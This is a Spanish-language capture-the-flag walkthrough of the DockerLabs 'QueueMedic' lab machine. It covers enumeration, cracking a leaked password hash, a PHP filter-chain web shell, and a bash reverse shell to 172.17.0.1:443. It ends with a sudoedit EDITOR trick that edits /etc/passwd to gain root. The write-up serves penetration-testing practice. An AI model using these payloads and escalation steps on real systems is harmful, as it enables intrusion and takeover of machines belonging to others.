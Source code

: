 nmap:  80

![image](https://github.com/user-attachments/assets/2efcdff6-8aab-4844-9d4b-9df84354303e)

---
vamos a la pagina principal y hay un login 

![image](https://github.com/user-attachments/assets/ceb080c3-198f-466f-aeb2-f36ca68675c2)

hacemos un gobuster y nos da algunos que son llamativos

![image](https://github.com/user-attachments/assets/6db3b8c6-b51c-4cfd-b77c-1d350db89b1f)

aquí http://172.17.0.2/patients.php nos da una pagina con un calendario básico

![image](https://github.com/user-attachments/assets/008ad910-5b3d-4d83-ad24-c07126d5aaf7)

al /backup nos descargamos el zip y lo descomprimimos. nos da:

![image](https://github.com/user-attachments/assets/2f6d5bbe-ee79-48d9-869b-f85a7a42c6fe)

ahora entramos a una carpeta que nos dio llamada /db/ y nos da un txt que dentro hay un nombre o dos junto a una posible contraseña.
> castrojessica

![image](https://github.com/user-attachments/assets/feec5145-33e9-4e84-93c6-54fc19abe3f1)


utilizamos esta herramienta https://github.com/urbanadventurer/username-anarchy
para que nos genere contraseñas basadas en los nombres encontrados

dentro de la carpeta viendo el manual, creamos: nano username
> jessica castro

guardamos

ahora hacemos:

    ./username-anarchy -i username > users

y nos dará: 

![image](https://github.com/user-attachments/assets/f63b8c97-7470-4e27-87af-f8f4135137af)

también podemos ver que en el archivo "clinic_queuing_db.db " sale al contraseña 
y podemos hacerlo mas fácil  
pasamos la contraseña un hash 

>  $2y$10$iDHQftaCCEPmdPj/11E3DOGiw3AsOPf6uYBpEAuh8J19oeGuloJIK

  la pasamos a hash, nano hash y pegamos la contraseña
 ahora 
     
     john --wordlist=wordlist.txt hash
 
 y nos da la contraseña: 
 > j.castro
 
![image](https://github.com/user-attachments/assets/baf96a99-91d2-4ac7-bdae-66322e792093)

 
ahora vamos al login.php e ingresamos las credenciales:
> jessica / j.castro

y estamos dentro del panel

![image](https://github.com/user-attachments/assets/85c0234e-5902-4120-a4b1-8bac02376020)

tomamos el nombre principal de la pagina que dice:  # Clinic Queuing System

buscamos un exploit y encontramos: https://www.exploit-db.com/exploits/52008
que vemos que podemos filtrar por php:  py filter_chain 

![image](https://github.com/user-attachments/assets/449a178d-5102-40ea-b9a4-132c9bff8eb9)

buscamos un exploit en github: https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

ahora copiamos el código  

creamos:
> nano filter.py / pegamos el código guardamos


![image](https://github.com/user-attachments/assets/8c00970d-f30f-4413-8051-73320aed657d)


> ahora python3 filter.py

ahora  en el terminal colocamos:
> python3 filter.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'

nos dará un código que lo copiamos

![image](https://github.com/user-attachments/assets/4759141d-7a61-4ab1-8159-6bf156d6cb2d)

y colocamos el buscador así:  172.17.0.2/?cmd=ls -la&page= y aquí colocamos el código que nos dio  que es vulnerable a ejecución de código remoto (RCE)

![image](https://github.com/user-attachments/assets/1882fd64-397c-4ea4-ad7a-96a8856ac272)

ahora la URL debe quedar así:  172.17.0.2/?cmd=bash -c 'bash -i >%26/dev/tcp/172.17.0.1/443 0>%261'&page= y aquí colocamos el código que nos dio

dejamos la terminal en escucha y lanzamos
![[dockerlabs/dificil/queuemedic/conexion.png]]

y estamos dentro, buscando no encontré mucho y probé con las mismas credenciales ya que no hay otro usuario aparte de jessica y root:  jessica / j.castro
![[jessica.png]]

ahora al hacer sudo -l aparece:  (root) NOPASSWD: sudoedit /var/www/html/*

para escalar encontré: 
![[sudoedit.png]]

o sea que puedo modificar el archivo, encontré este comando para poder dar el permiso de modificar por decir asi:

    export EDITOR='nano -- /etc/passwd'

ahora editamos:
  
    sudoedit /var/www/html/index.pgsd

le quitamos la x a root 
![[dockerlabs/dificil/queuemedic/root1.png]]
![[pasos1.png]]
colocamos su root y somos root!
![[suroot.png]]
muchas gracias! 
